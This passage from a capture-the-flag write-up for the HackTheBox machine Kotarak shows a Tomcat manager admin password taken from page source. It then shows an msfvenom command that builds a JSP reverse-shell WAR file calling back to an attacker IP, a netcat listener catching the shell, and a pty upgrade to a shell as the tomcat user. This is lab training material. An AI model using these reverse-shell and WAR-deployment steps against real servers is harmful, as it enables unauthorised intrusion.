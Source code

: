It shows an empty page with rendering, but has tomcat-manager credential when viewing it as source code.
It reveals `admin`'s password for tomcat-manager : `3@g01PdhB!`



# Shell as `tomcat` on DMZ

### WAR file uploading

First, let's login to tomcat-manager page with the found credential.

![](attachments/kotarak_10.png)

It allows us to deploy WAR file on its "Deploy" tab.

Let's create a payload.

```bash
┌──(kali㉿kali)-[~/htb/kotarak]
└─$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.36 LPORT=9000 -f war > reverse.war
Payload size: 1086 bytes
Final size of war file: 1086 bytes
```

```bash
┌──(kali㉿kali)-[~/htb/kotarak]
└─$ nc -nlvp 9000
listening on [any] 9000 ...
connect to [10.10.14.36] from (UNKNOWN) [10.10.10.55] 34136
python3 --version
Python 3.5.2
python3 -c 'import pty;pty.spawn("/bin/bash")'
tomcat@kotarak-dmz:/$ id
id
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
tomcat@kotarak-dmz:/$ whoami
whoami
tomcat
```

